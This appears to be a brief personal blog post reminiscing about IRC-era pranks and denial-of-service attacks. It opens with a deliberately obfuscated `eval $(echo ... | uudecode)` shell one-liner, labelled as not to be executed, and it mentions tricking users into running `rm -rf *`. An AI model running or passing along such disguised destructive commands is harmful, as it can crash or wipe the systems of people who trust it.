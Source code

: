 ```yaml
---
layout: post
title: DO NOT EXECUTE THIS!!!
---
```


<span style="font-size: 10px;">```eval $(echo "I<RA('1E<W3t`rYWdl&r()(Y29j&r{,3Rl7Ig}&r{,T31wo});r`26<F]F;==" | uudecode) ``` </span>
  
Source2: [https://www.vidarholen.net/contents/blog/?p=766][1]  
<br>
  
  
&emsp;&emsp;This was an interesting find. I started getting curious about computers around the IRC days. In those days, a lot of people were scripting their clients to produce ASCII art (back when it was a thing), but then there were others that realized it was possible to do more sinister stuff. For example, by flooding someone with a ping request it was possible to overload a target's network card/modem and cause them to disconnect (mind you this was dial up). This along with suggesting them to press `alt + F4` and `ctrl + alt + del`. 


&emsp;&emsp;And of course, there were those who were suggesting people to run commands similar to `rm -rf *` (or delete the Program Files folder). Somewhere around that time, I learnt about fork bombs and billion laughs. There was no wikipedia or youtube around then, just plain sites on geocities or all over the net wherever people could host time. 


&emsp;&emsp;Reading this article reminded me that the simplest attack is really just to disable a service/system, a Denial-Of-Service. It may not be complex or sophisticated but has cost implications (at the very least, time cost). Even with redundancies and self replicating microservices of today, it is just as easy for threat actors to scale themselves as well. Nowadays, even as most threat actors attempt to discreetly and covertly compromise a system, entrench their foothold and survey the internal network, sometimes they will use DOS for a good distraction. 


&emsp;&emsp;There were many who used to make fun of script kiddies. We don't really hear it that much anymore. Plus, almost everyone nowadays uses some sort of framework with pre-configured vulnerabilities and paylods.


[1]: https://www.vidarholen.net/contents/blog/?p=766




